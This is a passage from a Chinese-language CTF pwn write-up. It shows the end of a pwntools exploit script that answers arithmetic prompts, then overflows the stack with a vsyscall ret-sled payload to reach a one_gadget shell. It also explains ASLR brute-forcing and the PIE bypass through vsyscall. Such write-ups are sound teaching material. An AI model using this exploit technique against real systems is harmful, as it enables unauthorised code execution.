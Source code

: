 ```python
p.recvuntil('Any more?\n')
p.sendline(str(one_gadget-system_offset))

# question
for i in range(99):
    p.recvuntil("Question: ")
    a = int(p.recvuntil(" ")[:-1])
    p.recvuntil("* ")
    b = int(p.recvuntil(" ")[:-1])
    p.sendlineafter("Answer:", str(a * b))

# payload

payload = 'A' * 0x30 #buf大小
payload += 'B' * 8    # fake ebp
payload += p64(vsyscall_addr) * 3 #从返回地址位置一直到保存在栈上的one_gadget之间的位置全部填上
# gdb.attach(p)
p.sendafter("Answer:",payload)
# p.sendline('ls')

p.interactive()
```



#### 可以不选择爆破system地址：因为此题只计算100次，如果可以计算1000次可以选择爆破

**aslr的作用原理**：

 函数加载与mmap相同 

**mmap随机的位数由mmap_rnd_bits表示，在64位下是28比特，经过计算在64位平台下mmap的基地址是：page_align(0x7ffbf8000000-rand)，而其中的rand在是28比特的数字左移12位。当mmap的基地址确定后，**在各个系统中，程序运行起来时各个模块（不包括pie程序的主模块、但包括各个动态链接库）与mmap的基地址的偏移是固定的，因此这些模块加载地址的随机化也在28比特。

因此rand是 xxxxxxx000这样的，而使用了减法，因此影响了system地址中间8*4的地址值，故简单的可爆破8*4bit  

而当爆破某位时，当小于system地址时，需要进行1000次的运算，在运算中由于存在栈溢出漏洞，可以覆盖预期结果的地址，因此很简单。 

 **因为存在递归，为了维持栈平衡我们要在最后一关即将返回的时候控制返回地址**

当运算999次后，会停止运算并退出，如果退出，再次进入时就失效了，因此必须通过溢出覆盖返回地址，强行使程序恢复到程序开头。

栈地址中恰巧存在start函数地址，因此可以使用它来返回函数的初始状态。

但由于程序开启了PIE保护，无法从elf文件中直接跳转至main函数或寻找gadget，因此想到使用vsyscall来充当gadget（这部分在系统中地址始终不变。）



## vdso/vsyscall

vsyscall是什么呢？

通过查阅资料得知，vsyscall是第一种也是最古老的一种用于加快系统调用的机制，工作原理十分简单，许多硬件上的操作都会被包装成内核函数，然后提供一个接口，供用户层代码调用，这个接口就是我们常用的int 0x80和syscall+调用号。

当通过这个接口来调用时，由于需要进入到内核去处理，因此为了保证数据的完整性，需要在进入内核之前把寄存器的状态保存好，然后进入到内核状态运行内核函数，当内核函数执行完的时候会将返回结果放到相应的寄存器和内存中，然后再对寄存器进行恢复，转换到用户层模式。
